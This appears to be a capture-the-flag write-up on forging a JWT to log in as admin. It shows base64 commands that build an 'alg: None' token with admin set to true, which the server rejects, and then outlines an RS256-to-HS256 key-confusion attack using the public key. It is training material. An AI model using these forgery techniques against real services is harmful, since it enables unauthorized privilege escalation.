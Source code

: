 - this is the jwt token
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c509f7a5-c54b-4c3a-a913-63000d606f8a)
- it is using rs256
- when we try to register as admin it says user already existed
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/6fe8c79b-99c1-48a7-924f-ae6f0cec472d)
- so our goal would be to login as admin
- and also
```
{
  "user": "user1",
  "public_id": "eebe4bd7-9c44-4c84-a9bb-dad336c8de5e",
  "admin": false,
  "exp": 1713093336
}
```
here we see admin:false
we can make it true
```
C:\home\radha> echo 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9'|base64 -d
{"alg":"RS256","typ":"JWT"}                                                                                
C:\home\radha> echo '{"alg":"None","typ":"JWT"}'|base64
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0K


C:\home\radha> echo 'eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQzMzZjOGRlNWUiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTcxMzA5MzMzNn0='|base64 -d 
{"user":"user1","public_id":"eebe4bd7-9c44-4c84-a9bb-dad336c8de5e","admin":false,"exp":1713093336}
                                                                           
C:\home\radha> echo '{"user":"user1","public_id":"eebe4bd7-9c44-4c84-a9bb-dad336c8de5e","admin":true,"exp":1713093336}'|base64
eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo=

eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0K.eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo.

```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/351b175b-4fde-42bc-8ee6-eb8894e572f7)
- so it is not accepting none
```
{"message":"Invalid tokenThe specified alg value is not allowed"}
```
- there is another case rsa uses a pair of cases public and private
- uses private key to sign and public key to verify
- as we have access to public key we can sign our data with this key and say the algorith is hs256(symmetric enc)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/9718b95b-6bbb-49f2-a7de-326096ffe668)

